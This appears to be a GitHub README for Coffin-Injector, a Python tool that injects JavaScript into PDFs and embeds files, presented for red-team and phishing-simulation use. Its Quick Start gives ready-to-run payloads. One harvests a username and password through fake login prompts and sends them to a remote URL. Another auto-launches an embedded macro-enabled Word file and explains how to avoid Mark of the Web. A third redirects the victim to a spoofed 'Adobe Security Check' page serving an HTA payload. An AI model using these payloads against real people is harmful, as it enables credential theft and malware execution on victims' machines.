 # Coffin-Injector

A simple Python utility for injecting JavaScript payloads and embedding arbitrary files into PDF documents for use in red team assessments, phishing simulations, or client-side testing.

## ✨ Features

- Injects custom JavaScript payloads into the `/OpenAction` of a PDF file
- Allows full control over the JavaScript logic (e.g., alerts, credential prompts, redirects)
- Embeds external files (e.g., `.doc`, `.xls`, `.zip`) into the PDF for export and execution
- Maintains original PDF structure and readability

## ⚙ Requirements

- Python 3.7+
- `PyPDF2`

## 🚀 Quick Start

### Step 1: Set up a Virtual Environment

```bash
python3 -m venv venv
source venv/bin/activate
```

### Step 2: Install Dependencies

```bash
pip install PyPDF2
```

### Step 3: Run Coffin-Injector with JavaScript Credential Prompt

This payload injects a script that prompts the user for a username and password using `app.response()`, masks the password in a follow-up alert, and then exfiltrates the credentials using `app.launchURL()` to a remote server. Ideal for phishing or demonstrating alert-based credential theft.

```bash
python3 coffin-injector.py -i Resume.pdf -o poc.pdf -p 'var u=app.response("This document requires login to view.\rPlease enter your username:");var p=app.response("Please enter your password:","Password","",true);var mask=p.length>2?p[0]+"*".repeat(p.length-2)+p[p.length-1]:p;app.alert("This PDF has interactive features and should be opened in Adobe Acrobat for full compatibility.\r\rLogin:\rUsername: "+u+"\rPassword: "+mask);app.launchURL("https://example.com/?u="+escape(u)+"&p="+escape(p));'
```

### Step 4: Run Coffin-Injector with Embedded File and Export Trigger

This payload embeds a macro-enabled Word document into the PDF and injects a JavaScript trigger to export and launch the file when the PDF is opened. The `nLaunch: 1` parameter silently saves and auto-launches the embedded file without applying Mark of the Web, allowing macros to run if the user enables them in Office.

```bash
python3 coffin-injector.py -i landing.pdf -o doc_delivery.pdf -e Resume.doc -p 'app.alert("This document includes a securely embedded document. Click OK to extract."); this.exportDataObject({ cName: "Resume.doc", nLaunch: 1 });'
```

### Step 5: Run Coffin-Injector with Delayed Launch and External Redirection

This example demonstrates a scenario where the user is redirected to a spoofed "Adobe Security Check" page, where another payload (such as a `.hta` file) is delivered. After a 7-second delay (long enough for the user to interact with the HTA), the PDF launches the embedded document. This enhances believability that the user's actions triggered the embedded document's appearance. Note, testing with longer delays tend to fail.

```bash
python3 coffin-injector.py -i landing.pdf -o hta_delivery.pdf -e Resume.doc -p "app.alert('To view this document, please run the Adobe Security Check. You\'ll now be redirected.'); app.launchURL('https://minipickle-kali.tail72258d.ts.net/Adobe_Security_Check.php'); app.setTimeOut('this.exportDataObject({ cName: \"Resume.doc\", nLaunch: 2 });', 7000);"
```

### 📦 Understanding `nLaunch` Behaviour

These options control how embedded files behave when extracted using `this.exportDataObject()`:

- `nLaunch: 0` — Prompts the user to **save** the embedded file. This method avoids the Mark of the Web (MOTW), meaning macro-enabled Office files will open with the **yellow Enable Content** banner, allowing execution when the user enables macros. However, after saving, the user must manually locate and open the file.
- `nLaunch: 1` — Prompts the user to **save** the embedded file, and then **prompts to launch** the saved file immediately after saving. This avoids MOTW and offers a streamlined path for executing embedded macro payloads if the user enables macros.
- `nLaunch: 2` — Launches the file directly from within the PDF environment without prompting for a save location. Because it's executed from a temporary and browser-like context, the file **inherits MOTW**, causing Office to block macros with a **red security banner**.

> **Note**: Basic payloads using `app.alert()` and `app.response()` have been tested and are functional in Chromium-based and Firefox browsers (native PDF viewer). However, more advanced functionality such as `app.launchURL()` and `exportDataObject()` is only supported and tested in Adobe Acrobat.

For a full list of supported JavaScript functions in PDF files, see Adobe’s official documentation:
[https://opensource.adobe.com/dc-acrobat-sdk-docs/library/jsapiref/index.html](https://opensource.adobe.com/dc-acrobat-sdk-docs/library/jsapiref/index.html)

## 📁 Arguments

| Argument          | Description                                |
| ----------------- | ------------------------------------------ |
| `-i`, `--input`   | Path to the input PDF file                 |
| `-o`, `--output`  | Path for the output (patched) PDF          |
| `-p`, `--payload` | JavaScript payload to inject               |
| `-e`, `--embed`   | File to embed in the PDF (e.g., .doc file) |

## 📁 Default Payload

If no payload is supplied, the default behaviour is to inject:

```javascript
app.alert("PDF viewer allows XSS");
```

## 📝 License

This project is licensed under the [MIT License](LICENSE).

---

**Disclaimer:** For educational and authorised security testing purposes only.

